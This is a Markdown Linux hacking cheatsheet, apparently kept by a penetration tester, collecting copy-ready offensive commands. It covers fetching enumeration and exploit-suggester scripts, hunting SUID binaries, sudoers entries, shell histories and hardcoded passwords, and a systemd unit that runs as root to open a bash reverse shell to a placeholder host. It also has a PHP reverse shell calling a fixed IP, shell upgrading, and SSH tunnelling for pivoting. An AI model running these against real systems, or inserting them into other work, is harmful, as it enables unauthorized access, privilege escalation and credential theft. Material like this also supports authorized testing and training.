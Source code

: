 # Linux Hacking Cheatsheet

## Automated Enumeration Scripts

`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
`wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh`
`wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py # python2`
`wget

<!--
##################################################################
##################################################################
-->

## System Enumeration

### Search for keyword

`grep -ri "word" /`
`grep -ri "search term` /| grep -Fv "excluded term"

### Find SUID bits

`find / -perm -u=s -type f 2>/dev/null`
`find / -user root -perm -4000 -exec ls -ldb {} \;`

### Find human readable strings in binary

`strings /usr/bin/menu`

### Services running as Root

`ps aux | grep root`

### Show System Distribution and Version

`cat /etc/issue; cat /etc/*-release; cat /etc/lsb-release; cat /etc/redhat-release;`

### Show System Architecture

`cat /proc/version; uname -a; uname -mrs; rpm -q kernel; dmesg | grep Linux; ls /boot | grep vmlinuz-; file /bin/ls; cat /etc/lsb-release`

### Find Writable Config Files

`find /etc/ -writable -type f 2>/dev/null`

### Find Miss-configured Services

`cat /etc/syslog.conf; cat /etc/chttp.conf; cat /etc/lighttpd.conf; cat /etc/cups/cupsd.conf; cat /etc/inetd.conf; cat /etc/apache2/apache2.conf; cat /etc/my.conf; cat /etc/httpd/conf/httpd.conf; cat /opt/lampp/etc/httpd.conf; ls -aRl /etc/ | awk '$1 ~ /^.*r.*/`

### Show Scheduled Cron Jobs

`crontab -l; ls -alh /var/spool/cron; ls -al /etc/ | grep cron; ls -al /etc/cron*; cat /etc/cron*; cat /etc/at.allow; cat /etc/at.deny; cat /etc/cron.allow; cat /etc/cron.deny`

### Find Hardcoded Passwords

`grep -i user [filename]`
`grep -i pass [filename]`
`grep -C 5 "password" [filename]`
`find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"`

### Find World Readable/Writable Files

`echo "world-writeable folders"; find / -writable -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -222 -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -o w -type d 2>/dev/null; echo "world-executable folders"; find / -perm -o x -type d 2>/dev/null; echo "world-writeable & executable folders"; find / \( -perm -o w -perm -o x \) -type d 2>/dev/null;`

### Find World Readable Files

`find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print`

<!--
##################################################################
##################################################################
-->

## User Enumeration

### Show Groups Users In

`id`

### List All Users Home Directories

`ls -ahlR /root/; ls -ahlR /home/`

### Show Users Bash History

`cat ~/.bash_history; cat ~/.nano_history; cat ~/.atftp_history; cat ~/.mysql_history; cat ~/.php_history`

### Show Users Mail

`cat ~/.bashrc; cat ~/.profile; cat /var/mail/root; cat /var/spool/mail/root`

### Find Other Users

`id; who; w; last; cat /etc/passwd | cut -d: -f1; echo 'sudoers:'; cat /etc/sudoers; sudo -l`

<!--
##################################################################
##################################################################
-->

## Network Enumeration

### Show Connections

`netstat -ano`

<!--
##################################################################
##################################################################
-->

## Privilage Escalation

### Priv Esc systemctl with user access

_Create protection.service file in writable directory_

```
[Unit]
Discription=Does very important stuff mmmkay

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/YOURIP/YOURPORT 0>&1'

[Install]
WantedBy=multi-user.target
```

<!--
##################################################################
##################################################################
-->

## Shells

### Escaping no tty shell

`/usr/bin/script -qc /bin/bash /dev/null`

_try ctrl + z_

`stty raw -echo`

`fg`

`export TERM=xterm #autocomplete`

_or_

`SHELL=/bin/bash script -q /dev/null`

`Ctrl-Z`

`stty raw -echo`

`fg`

`reset`

`xterm`

### PHP reverse shell

```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/172.30.10.210/443 0>&1'");
```

<!--
##################################################################
##################################################################
-->

## Useful Commands

### Grep IPs out of file

`grep -E -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}" file.txt`

### Add Directory to PATH

export PATH=/tmp:$PATH

### Edit Wifi Connections

`nmtui`

_or_

`nmcli`

### Spin up webserver

`python -m SimpleHTTPServer 80`

### SSH Port Forwarding

`ssh -D localhost:9999 -f -N root@172.30.72.97 -p 40384`

**\*edit proxychains .conf file to connect over socks5 127.0.0.1 9999**

_or_

~C "if you already have an SSH session"

-R 8081:172.24.0.2:80 (on my Kali machine listen on 8081, get it from 172.24.0.2:80)
<KALI 10.1.1.1>:8081<------------<REMOTE 172.24.0.2>:80
Now you can access 172.24.0.2:80, which you didn't have direct access to

-L 8083:127.0.0.1:8084 (on your machine listen on 8083, send it to my Kali machine on 8084)
<KALI 127.0.0.1>:8084<------------<REMOTE 10.1.1.230>:8083<------------<REMOTE X.X.X.X>:XXXX
run nc on port 8084, and if 10.1.1.230:8083 receives a reverse shell, you will get it

### sshuttle

`sshuttle --dns -vvr user@targetip -x targetip 0/0`
